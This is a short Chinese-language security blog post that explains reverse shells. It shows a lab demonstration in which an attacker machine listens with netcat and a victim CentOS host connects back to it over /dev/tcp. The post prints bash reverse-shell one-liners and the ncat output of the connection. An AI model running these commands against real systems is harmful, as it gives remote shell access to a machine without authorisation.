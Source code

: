 ```yaml
---
layout: post
title:  反弹shell
categories: 安全知识
description: 未授权
keywords: 未反弹shell授权
---
```


# 什么是反弹 shell

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，`本质上是网络概念的客户端与服务端的角色反转。`

# 反弹 shell 运行

然后把`攻击机kali的端口`监听打开

```al

nc -lvp 80
```



用受害机centos7生成一个反弹shell，连接宿主机的公网 IP10.8.163.224/nc -lvp 80，这样通过端口转发，就会连接到kali虚拟机上。

bash -i >& /dev/tcp/10.8.163.224/80 0>&1



我们可以看到kali已经获取到受害机的bash。
```dotnetcli

[root@victim ~]# bash -i < /dev/tcp/10.201.61.194/5566        //第二步
[root@victim ~]# hostname        //测试2结果：实现了将攻击端的输入重定向到受害端，但是攻击端看不到命令执行结果。
victim

 攻击端：

[root@hacker ~]# nc -lvp 5566        //第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:50412.
hostname        //第三步（攻击端执行命令）

```